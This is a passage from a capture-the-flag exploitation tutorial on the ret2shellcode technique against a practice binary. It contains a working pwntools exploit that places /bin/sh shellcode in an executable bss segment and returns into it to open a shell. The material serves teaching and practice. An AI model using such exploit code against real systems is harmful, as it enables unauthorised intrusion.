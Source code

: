 
Through vmmap, we can see that the segment corresponding to the bss segment has executable permissions.


```text
0x0804a000 0x0804b000 0x00001000 rwx /mnt/hgfs/Hack/CTF-Learn/pwn/stack/example/ret2shellcode/ret2shellcode
```


So this time we control the program to execute the shellcode, which is to read the shellcode, and then control the program to execute the shellcode at the bss section. Among them, the corresponding offset calculation is similar to the example in ret2text.


The specific payload is as follows


```python
#!/usr/bin/env python3
from pwn import *

#--------setup--------#

context(arch="i386", os="linux")

elf = ELF("ret2shellcode")
p = elf.process()

#--------ret2shellcode--------#

offset = 112
shellcode = asm(shellcraft.sh())
buf2 = 0x0804A080

payload = flat(
    shellcode.ljust(offset, b"\x00"),
    buf2,
)

p.sendlineafter("No system for you this time !!!\n", payload)
p.interactive()
```


### Exercise


- [sniperoj-pwn100-shellcode-x86-64](https://raw.githubusercontent.com/SniperOJ/CDN/master/pwn/shorter-shellcode-x86-64)


## ret2syscall


### Theory
